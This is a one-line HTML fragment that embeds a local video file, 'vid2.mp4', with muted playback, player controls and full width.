<video src="vid2.mp4" muted controls width="100%"></video>
